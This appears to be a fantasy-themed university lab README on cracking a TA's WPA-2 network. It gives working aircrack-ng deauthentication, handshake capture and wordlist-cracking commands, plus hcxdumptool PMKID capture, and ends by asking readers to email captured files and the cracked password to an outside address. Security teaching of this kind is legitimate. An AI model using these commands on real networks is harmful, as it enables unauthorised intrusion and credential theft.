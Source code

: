 ![Evil TA at Northeastern](https://imgix.bustle.com/rehost/2016/9/13/24c51813-45cb-4d25-b44e-64547d98d2a3.jpg?w=970&h=546&fit=crop&crop=faces&auto=format&q=70)

# The winds whisper of a deadly virus!

*In the woods of Mordor, a rumour spreads that a Northeastern TA has been brewing a virus. This is not the same one that you have heard of on the tele recently, but is instead one of a more sinister programmatic constitution... a computer virus. The evil TA sits quietly somewhere on campus, brewing his poision in his own little private internet network. Your mission is to track down this foe and **capture his WPA-2 password**.  My sources indicate that he goes by the name *Varun* and like a rare Pokemon, can only be captured during his TA hours, of which I cannot be sure...*

*The following link has mysteriously surfaced in the past few days  
https://calendly.com/machanapally-v*

*Do with it what you will...*

# Mission 1

As you prepared for battle, in the dungeons of richards hall last night, you were shown how to capture the ritualistic 4-way handshake between your allied enemies. This you did, by willfully  **deauthenticating** them from their armour. Let us once again go through the ritual...

## Prepare your wireless adapter to interface with Lord Kali VM
https://www.youtube.com/watch?v=kUffk-UOkvI

## Put your network device into monitor mode

    sudo airmon-ng start wlan1

## Listen for all nearby beacon frames to get target BSSID and channel

    sudo airodump-ng wlan1mon

## Start listening for the handshake on channel '6'

> **Note:** Remember to replace the  **channel number** and **mac address** with what you find listed for your target on airodump above.

    sudo airodump-ng -c 6 --bssid 56:38:FF:F8:80:5F -w capture wlan1mon

## Intuition behind a deauthentication attack

A deauth attack sends forged deauthentication packets from your machine
to a client connected to the network you are trying to crack.

These packets include fake “sender” addresses that make them appear to be sent from the **Access Point**. Upon receipt of such packets, most clients (your victims) disconnect from the network, before immediately reconnecting,

This provides you with the 4-way handshake, so long as you were listening to the interaction the whole time, with airodump-ng. You should ideally target a specific victim to deauthenticate, so that you don't raise an alarm.

**Go ahead and open a new terminal window to start a deauth attack!**
	*(Leave your airodump-ng process running in its original terminal)*

> *Deauth from a BSSID directed at a **specific** client*

    sudo aireplay-ng -0 2 -a 10:0C:6B:90:98:F3 -c 44:5E:CD:B2:0B:D1 wlan1mon

If you are not feeling confident about any specific client, or not getting sufficient power from the victim's device, you can broadcast a blanket deauthentication and make a run for it.

> *Deauth from a BSSID directed at **all** clients*

    sudo aireplay-ng -0 2 -a 10:0C:6B:90:98:F3 wlan1mon

When you have captured the 4 way handshake you should head on back to your
`airodump-ng`process and with any luck you should now see something like this at the top right:

`[ WPA handshake: 10:0C:6B:90:98:F3`

Now that you’ve captured a handshake you can kill airodump with Ctrl + C. In the same file path that you opened the airodump terminal in, you should find an output file with the handshake, ending in extension should be ready to crack the network password.

## Cracking the password hash

This is your chance for some pythonic wizardry. Write a python script that clones, unzips and goes through each text file in:
https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials

The python script should execute the following aircrack command but over every .txt file. You never know which .txt has your password.

> **ProTip:** You should probably write some code to **remove redundant passwords** between the different .txt files and make your hack more efficient!

    sudo aircrack-ng -a2 -b 10:0C:6B:90:98:F3 -w passwords.txt 4-way-handshake.cap


# Mission 2

*You have finally ended the threat of the evil TA but you cannot rest. You have caught wind of a new threat from the eastern frontier. There is hearsay that the TA long foresaw his demise and was busy building another private environment in which there were no devices connected. To takeover such a world you would need to practice some darks arts...


## Alchemy to capture the PKMID

Rather than relying on intercepting two-way communications between Wi-Fi devices, hoping to deauthenticate them, capture a 4-way-handshake, parse the PKMID and to try crack the hash, an attacker can communicate directly with a vulnerable access point using some sorcery



## Prepare your spellbook

    sudo apt-get install libpcap-dev libcurl4-openssl-dev libssl-dev

## Download your first incantation

    git clone https://github.com/ZerBea/hcxdumptool.git

    cd hcxdumptool

    sudo make

    sudo make install


## Download your second incantation

    git clone https://github.com/ZerBea/hcxtools.git

    cd hcxtools

    sudo make

    sudo make install






## Cast your spell

> **ProTip:** The -o flag denotes the output filename

    sudo hcxdumptool -i wlan1mon -o pkmid.pcapng --enable_status=1



## Capture the effects of your spell and send it to the wizard

> **ProTip:**

    sudo hcxpcaptool -E essidlist -I identitylist -U usernamelist -z hashcat.16800 pkmid.pcapng


> **ProTip:** #
> -E <file> : output wordlist (autohex enabled) is used as input wordlist for the cracker
>  -I <file> : outputs unsorted identity list
>  -z: The.16800 filename extension is the format used by GPU-driven password hashcat.

You should now have an output file with the extension .pcapng

Please email the unknown wizard the .pcapng file you generated above. Also send the network password of the wicked TA that you cracked in Mission 1.

Email: powerhorse@protonmail.ch
